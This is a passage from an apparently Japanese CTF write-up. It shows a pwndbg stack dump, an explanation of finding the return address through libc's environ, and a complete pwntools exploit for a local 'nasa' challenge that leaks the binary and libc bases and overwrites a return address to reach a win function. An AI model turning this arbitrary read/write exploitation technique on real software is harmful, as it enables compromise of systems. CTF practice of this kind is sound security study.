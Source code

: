 ```
0x7ffc22e40258 —▸ 0x71474c0376b5 (__libc_start_call_main+117) ◂— mov edi, eax
0x7ffc22e402f8 —▸ 0x71474c037769 (__libc_start_main+137) ◂— mov r14, qword ptr [rip + 0x1be820]
0x7ffc22e40358 —▸ 0x612e61a60245 (_start+37) ◂— hlt 
```
`0x7ffc22e40388 - 0x7ffc22e40258 = 0x130`より差は`0x130`だった。  
つまり、`read`で`environ`を読んだ時に出てくるアドレスから`0x130`を引いた値がリターンアドレスの位置になるため、あとは`write`でそこに`win`のアドレスを書き込んで`exit`で終了すれば`win`が実行される。  

```python
from pwn import *
context.log_level = 'error'
elf = context.binary = ELF('./nasa')
#libc = elf.libc
libc = ELF('./libc.so.6')
#p = process('./nasa')
p = remote('localhost', 1337)

addr_of_option = int(p.recvline().strip(), 16)
addr_of_win = int(p.recvline().strip(), 16)
elf.address = addr_of_win - elf.sym['win']

print(f'binary base: {hex(elf.address)}')
print(f'option: {hex(addr_of_option)}')
print(f'win: {hex(addr_of_win)}')

p.recvline()
p.sendline(b'2')
p.recvline()
p.sendline(f'{hex(elf.got['system'])}'.encode())

leaked_system = int(p.recv(12), 16)
libc.address = leaked_system - libc.sym['system']
print(f'libc base: {hex(libc.address)}')

p.recvline()
p.sendline(b'2')
p.recvlines(2)
p.sendline(f'{hex(libc.sym['environ'])}'.encode())
retaddr_address = int(p.recv(12), 16) - 0x130

p.recvlines(2)
p.sendline(b'1')
p.recvline()
p.sendline(f'{hex(retaddr_address)} {hex(addr_of_win)}'.encode())
p.recvline()
p.sendline(b'3')
p.recvline()

print(p.recvall().decode('latin-1'))
```

## Note Editor
プログラムを読み解いていく。noteの構造体は以下。  
